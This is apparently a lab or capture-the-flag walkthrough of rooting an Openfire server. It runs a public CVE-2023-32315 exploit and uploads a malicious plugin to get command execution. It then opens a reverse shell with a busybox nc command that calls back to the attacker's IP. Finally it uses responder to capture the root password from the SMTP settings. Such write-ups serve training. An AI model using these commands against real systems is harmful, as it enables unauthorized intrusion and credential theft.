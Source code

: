 ![](../attachment/40f47544d336364a50ba48f232487805.png)
We have openfire.

Using this [exploit](https://github.com/K3ysTr0K3R/CVE-2023-32315-EXPLOIT)
```
python3 CVE-2023-32315.py -u http://192.168.243.96:9090
```
![](../attachment/55835e0d982986bc9bf8e3ed8ab45347.png)

We can login with `hugme:hugmeNOW`
![](../attachment/7b2aee78dcdf325199e7e647d8eb0d9d.png)


uploading openfire-management-tool-plugin.jar file from https://github.com/miko550/CVE-2023-32315
![](../attachment/22be113f679c54be2daf826ad1f386fd.png)

Now in server->server settings->Management tool![](../attachment/728c041465c14592eebc3f40386d38aa.png)
Enter password `123`:
![](../attachment/da915ad6eeda925c65bc0da7a31e60ce.png)
We have command execution.

Using payload `busybox nc 192.168.45.229 9090 -e bash`:
![](../attachment/3ff74d764cd6260eaee83e35af9f3a22.png)

And listening using penelope:
![](../attachment/19eef36e0fd59de720bb726cd6fdc9cd.png)
We have a shell as openfire.

We can change admin password too:
![](../attachment/b1f73323114dd04f99b55a814569e464.png)

We can go to email settings:
![](../attachment/81c267298107a7e702221f968e32a5ed.png)
We can change the host and save. The root password is already filled.
![](../attachment/9d30a0f60c00c1f1302eb1559fd7b491.png)
Run responder:
```
sudo responder -I tun0 -A
```

Now send a test mail:
![](../attachment/202044c374b5d73d3a87a15b85745261.png)

We get the root password:
![](../attachment/685e6a0e4d3e32f6116f3a50b462ce31.png)
Now we can switch to root with `su root`:
![](../attachment/c0b8d83418f8cface87a96edd28f821e.png)
We are root :)